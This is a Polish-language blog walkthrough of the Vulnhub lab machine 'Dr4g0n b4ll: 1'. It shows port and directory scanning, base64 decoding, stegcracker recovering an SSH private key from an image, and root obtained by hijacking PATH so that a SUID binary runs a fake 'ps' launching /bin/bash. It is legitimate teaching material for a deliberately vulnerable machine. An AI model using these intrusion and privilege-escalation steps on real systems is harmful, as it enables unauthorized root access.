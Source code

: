 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough  
tags:
  - Hacking
  - Vulnhub
  - Walkthrough
  - Dr4g0nB4ll
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
---
```


|:----|:----|
|Nazwa:|Dr4g0n b4ll: 1|
|Autor:|[Mr_xmen](https://www.vulnhub.com/author/mr_xmen,777/)|
|Wypuszczony:|14.01.2021|
|Do ściągnięcia:|[Stąd](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/) - Vulnhub|
|Poziom:|Łatwy|
|Nauczysz się:|Metasploit, Base64, Stegcracker, C|

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [**Grub**a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do **Dragon Ball**a, jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. :smiley:
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty **Nmap**em. Możemy pod **Metasploit**em, albo bez. Ja wolę użyć **Metasploit**a, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do **Shell**a, to niekoniecznie, czasami wolę się wbić normalnie przez **SSH**, niż potem ulepszać **Meterpreter**, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
## Co na stronie piszczy?
Otwarte są tylko 2 porty: **22** i **80**. Na Stronie **WWW** mamy zdjęcia z anime **Dragon Ball**.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
{: .text-justify}
```bash
# echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
# echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
# echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Radzę pisać z przełącznikiem **-n**, teraz odkoduje tak samo, ale podczas kodowania base64 bez **-n** wychodzą inne rzeczy,koduje dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie **Gobuster**em:
```bash
# gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy parę ciekawych rzeczy:
http://172.16.1.124/robots.txt
{: .text-justify}
{: .notice--info}
Ponownie dekodujemy:
{: .text-justify}
```bash
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
# echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Jest komunikat, żeby szukać ukryty katalog:
http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery3"  %}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .text-justify}
{: .notice--info}
{% include gallery id="gallery4"  %}
## Stenografia
Strona poprawnie nie działa, ale mamy login. i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
## Lądujemy do Shella
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
# ssh -i id_rsa xmen@172.16.1.113
```
Poszło:
Mamy ciekawy katalog script, ale poszukajmy plików, które mają ustawiony bit suid, może się coś ciekawego znajdzie:
{: .text-justify}
```bash
# xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Ciekawa jest zawartość: **/home/xmen/script/shell**
{: .text-justify}
```bash
# xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia **Root**a i uruchamia program **ps**:
{: .text-justify}
<div class="notice--primary" markdown="1">
demo.c
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
</div>
Program **./shell** uruchamia **ps** z uprawnieniami **root**a:
```bash
# xmen@debian:~/script$ ./shell
  PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
```
Nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program w katalogu domowym:
{: .text-justify}
```bash 
# file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym: **PATH="/home/xmen:$(echo $PATH)"**
{: .text-justify}
```bash
# xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# xmen@debian:~/script$ ./shell
# root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```
## Słowo na koniec
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
